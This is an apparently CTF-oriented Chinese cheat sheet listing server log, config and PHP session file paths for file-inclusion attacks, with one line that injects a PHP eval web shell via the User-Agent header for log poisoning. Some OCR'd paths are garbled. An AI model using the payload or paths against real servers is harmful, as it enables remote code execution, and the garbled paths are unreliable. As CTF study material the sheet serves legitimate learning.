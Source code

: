 网站位置
```
/www/wwwroot/站点/
/var/www/html/ 
/var/www/html/index.php
```
宝塔网站nginx,apache的访问和访问错误日志都在
```
/www/wwwlogs/站点名.log
```
^
Apache Web 服务器日志通常存储在这些目录中
```

/var/log/httpd/access.log
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/apache2/error.log

/etc/httpd/logs/access.log

/etc/httpd/conf/httpd.conf
```

^
 MySQL 或 MariaDB 数据库服务器日志
```
/var/log/mysql
/var/log/mariadb
```
IIS服务器日志常见位置
```
WindowsServer2003 iis6
日志路径：C:Windows\System32\LogFilesWindows 
Server2008 R2、2012、2016、2019 iis7以上
日志路径：C:linetpub\logs\LogFiles
```
^
Nginx web 服务器日志通常存储在该目录中
```
/var/log/nginx
/var/log/nginx/access.log

在UA中插入<?php eval($_POST[1]); ?>
<?php phpinfo(); ?>
```
配置文件
```
配置文件存放目录：/etc/nginx
主配置文件：letc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf  读这个文件可能有flag路径
```

^
php的session常见存储位置，里面为键值对 字符

其中
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie存储
如
```
/tmp/sess_99se2w33sddcs
```

tomcat常见访问日志位置
```
apache_tomcat/logs/localhost_access_log.日期.txt
```


